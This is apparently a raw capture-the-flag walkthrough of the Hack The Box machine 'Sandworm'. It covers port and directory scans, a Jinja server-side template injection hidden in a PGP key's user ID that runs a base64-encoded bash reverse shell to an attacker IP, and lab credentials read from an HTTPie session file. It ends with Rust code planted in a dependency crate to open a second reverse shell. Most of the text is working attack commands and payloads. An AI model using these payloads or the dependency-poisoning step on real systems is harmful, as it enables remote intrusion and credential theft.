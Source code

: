 └─$ nmap -sV -sC 10.10.11.218
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 04:55 EDT
Nmap scan report for 10.10.11.218
Host is up (0.77s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.02 seconds

at https://ssa.htb/guide/encrypt

[](https://ssa.htb/guide/encrypt)

dirb results
+ https://ssa.htb/about (CODE:200|SIZE:5584)                                                                     
+ https://ssa.htb/admin (CODE:302|SIZE:227)                                                                      
+ https://ssa.htb/contact (CODE:200|SIZE:3543)                                                                   
+ https://ssa.htb/guide (CODE:200|SIZE:9043)                                                                     
+ https://ssa.htb/login (CODE:200|SIZE:4392)                                                                     
+ https://ssa.htb/logout (CODE:302|SIZE:229)                                                                     
+ https://ssa.htb/pgp (CODE:200|SIZE:3187)                                                                       
+ https://ssa.htb/process (CODE:405|SIZE:153)  

so we know there is ssti in the key encryption for sandworm

but need understanding over PGP keys

https://github.com/atriox2510/pgp-pysuite.git

when we use this to generate the pgp key and then the signed text we are getting verified

──(kali㉿kali)-[~/pgp-pysuite]
└─$ cat keypgp_uwu.pub.asc 
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQENBGSlPkgBCADc1O0J9Ds4LG/c5+SuRmaSRHACRMqbyI/y/7MXm7AZjMF5rn0U
ZygZIao5z5FmD5Qj508tmlJpnEZGpQtXKV0JeTkeqs8kO+AEoHO5CFtUW7HgyHmn
xUzM1wDFzQZXAh5QjnNtK8MrnPSeD1Xx9qpA1h4Y56P9tBV0c+F3tQsviyMw8qNm
bWF6b24uY29tPokBTgQTAQoAOBYhBHadavRX2zp2k1VrTAbkbNHg8yIUBQJkpT5I
AhsvBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheAAAoJEAbkbNHg8yIU45sH/RBsIngj
wrZCPCZ7kc3si1fkSAATz7Dyt/9KtexEAopL7gf5rmml7lsR2aqamHCU5siWmBkX
7D67np7aJgcyu+F8TZ3vlJsIjsJdTACkNpxlfkgPInKwY9bgJHAEMx5IichkCbi0
N7TxRwuFg+hBywoIq1z/V8ZzCZI5cEzP33v9Tokmtt7QqLeMiky8IO29Jo5XMqud
5tCOTcGQgSxGgh+6zxhr4WRaENTuTuWnliT+KuYzE2ry2pfDZhXU/NlSkuGEdt/4
TehSn+76J+hGDdfD7wCrS3kp6sh5qZDDPVvSKethNsJiUCrhWGPA3ucoXyilcSPf
UxsF/ZT1OZrLJzU=
=b8zD
-----END PGP PUBLIC KEY BLOCK-----

┌──(kali㉿kali)-[~/pgp-pysuite]
└─$ python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

[+] Message signed successfully

-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

hello
-----BEGIN PGP SIGNATURE-----

iQEzBAEBCgAdFiEEdp1q9FfbOnaTVWtMBuRs0eDzIhQFAmSlQkwACgkQBuRs0eDz
WbqmSgFcO2ArBhr/dg4PUWfBDDlMlroZErClV1etKT5U
k46ooF5uyhYmqdAyPKQWGsaqDf3Ma2AgwO2chlUHguY4C1R7ApapPFwDiVgvopuZ
s8hpWrWXIMixaOVrL/9ZNn3SX/cGEEGK0rrLVuqDp1s8UqGosOE5p7Q9Kx5HmjdE
vMPC2pmXnGGt5jTNRLDyEwcIhyq/mCEQ0g0VqiGd6jReIjVx7Oon7D3odcVzUNQ/
MlcmsQJA7gRnGxhh/4cu+wkwmx0v6A==
=b+27
-----END PGP SIGNATURE-----

we will now try and change the uid

https://www.sobyte.net/post/2021-12/modify-gpg-uid-name/

base64 encoded shell

/bin/bash -i >& /dev/tcp/10.10.16.9/1234 0>&1
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx" | base64 -d | bash').read() }}`

python3 keygen.py -p kali -n "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx | base64 -d | bash').read() }}" -e alexa@amazon.com 

python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

this got me a shell

![](20230705064345.png)

atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ ls
ls
admin.json
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}

```
silentobserver@sandworm:/opt/tipnet/target/debug$ cat tipnet.d
/opt/tipnet/target/debug/tipnet: /opt/crates/logger/src/lib.rs /opt/tipnet/src/main.rs
```
nano /opt/crates/loggger/src/lib.rs

use std::process::Command;

let output = Command::new(“bash”)
        .arg(“-c”)
        .arg("bash -i >& /dev/tcp/10.10.16.12/4445 0>&1")
        .output()
        .expect(“failed to execute process”)


 